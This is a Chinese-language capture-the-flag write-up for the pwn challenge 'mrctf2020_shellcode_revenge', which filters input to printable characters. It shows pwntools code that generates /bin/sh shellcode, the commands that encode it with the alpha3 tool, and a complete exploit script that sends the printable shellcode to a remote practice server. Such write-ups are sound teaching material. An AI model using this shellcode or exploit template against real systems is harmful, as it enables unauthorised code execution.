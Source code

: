 # mrctf2020_shellcode_revenge

## 来源
mrctf2020


## 难度

3 / 10

## 保护

 ```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
 ```

## 简单描述

传入shellcode, 经过某些字符过滤然后执行shellcode, 该字符过滤就是shellcode必须为 0x60-0x7a, 0x2f-0x5a, 也就是可打印字符

## vul

```c
执行shellcode
```



## 知识点

shellcode, alpha3可打印shellcode生成

## 思路

将成好的shellcode 经过alpha3工具转化为可打印的



## 利用

### 生成shellcode

```
from pwn import *

fd = open('sc.bin', 'w')
p = asm(shellcraft.amd64.sh(), arch = 'amd64')
fd.write(p)
fd.close()

```



### 获取alpha3工具与使用

```
git clone https://github.com/TaQini/alpha3.git
cd alpha3
python ./ALPHA3.py x64 ascii mixedcase rax --input="sc.bin"
```





## exp

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
# Author: I0gan

from pwn import *
#from LibcSearcher import LibcSearcher

context.log_level='debug'
#context(arch = 'i386', os = 'linux', log_level='debug')
#context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile = 'mrctf2020_shellcode_revenge'
libFile = '/lib/x86_64-linux-gnu/libc.so.6'

remoteIp = "node3.buuoj.cn"
remotePort = 29232

LOCAL = 0
LIB   = 0

r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
s   =  lambda x : io.send(x)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
li    = lambda x : log.info('\x1b[01;38;5;214m' + x + '\x1b[0m')
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------


#--------------------------Exploit--------------------------
def exploit():
	ru('!')	
	p = 'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'
	s(p)

		
	

def finish():
	ia()
	c()

#--------------------------Main-----------------------------
if __name__ == '__main__':
	
	if LOCAL:
		exe = ELF(exeFile)
		if LIB:
			lib = ELF(libFile)
			io = exe.process(env = {"LD_PRELOAD" : libFile})
		else:
			io = exe.process()
	
	else:
		exe = ELF(exeFile)
		io = remote(remoteIp, remotePort)
		if LIB:
			lib = ELF(libFile)
	
	exploit()
	finish()

```

